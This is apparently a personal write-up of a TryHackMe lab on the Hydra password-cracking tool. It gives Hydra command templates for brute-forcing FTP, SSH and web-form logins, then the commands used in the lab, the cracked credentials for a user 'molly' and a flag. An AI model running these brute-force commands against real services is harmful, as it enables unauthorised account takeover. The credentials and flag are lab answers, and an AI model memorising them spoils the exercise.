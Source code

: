 # Hydra-ha-ha-haa

```
compromising a/c by bruteforcing
```

## Notes

```
export IP=10.10.92.194

hydra -l user -P passlist.txt ftp://192.168.0.1

For SSH:
hydra -l <username> -P <full path to pass> <ip> -t 4 ssh

For WEB:
hydra -l <username> -P <password list> <ip> http-post-form "/<login url>:username=^USER^&password=^PASS^:F=incorrect" -V


```

## Questions

1. Use Hydra to bruteforce molly's web password. What is flag 1? (The flag is mistyped, its THM, not TMH)

```
hydra -l molly -P /media/nikesh/HDD/Security/wordlist/rockyou.txt 10.10.92.194 http-post-form "/login:username=^USER^&password=^PASS^:F=Your username or password is incorrect." -V -f
molly:joyness1994

```

2. Use Hydra to bruteforce molly's SSH password. What is flag 2?

```
hydra -l molly -P <full path to pass> <ip> -t 4 ssh -f
molly:butterfly

THM{c8eeb0468febbadea859baeb33b2541b}
```
